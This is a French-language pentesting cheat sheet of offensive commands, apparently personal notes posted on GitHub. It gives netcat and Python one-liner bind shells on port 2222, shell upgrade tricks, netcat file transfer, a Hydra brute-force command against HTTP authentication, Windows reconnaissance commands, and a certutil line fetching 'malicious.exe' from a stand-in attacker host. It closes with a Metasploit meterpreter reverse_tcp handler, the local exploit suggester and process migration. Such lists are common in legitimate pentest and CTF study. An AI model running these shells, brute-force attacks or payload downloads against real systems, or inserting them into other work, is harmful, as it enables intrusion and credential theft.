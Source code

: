 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
setfacl -m u:username:rwx myfolder</br>
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
Rebonds avec ssh:</br>
ssh -J root@premier_rebond root@cible</br>
Port forwarding avec ssh:</br>
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
<ul>
  <li>python -c "import pty; pty.spawn('/bin/bash')"</li>
</ul>
<h4>Pour avoir tab completion tout joli :</h4>
<ul>
  <li>Prendre un shell pty avec la commande plus haut</li>
  <li>CTRL-Z</li>
  <li>stty raw -echo</li>
  <li>fg</li>
</ul>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

Hydra:</br>
http-auth bute force</br>
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V</br>

XfreeRDP:</br>
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>
certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe le wget en cmd<br/>
certutil.exe -decode bad.txt bad.exe le base64 decode en cmd</br>

<h3>Powershell</h3>
get-WmiObject -class Win32_Share</br>


<h2>Metasploit</h2>
Handler :</br>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 192.168.8.142</br>
set LPORT 8888</br>
set ExitOnSession false</br>
exploit -j -z</br>

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>
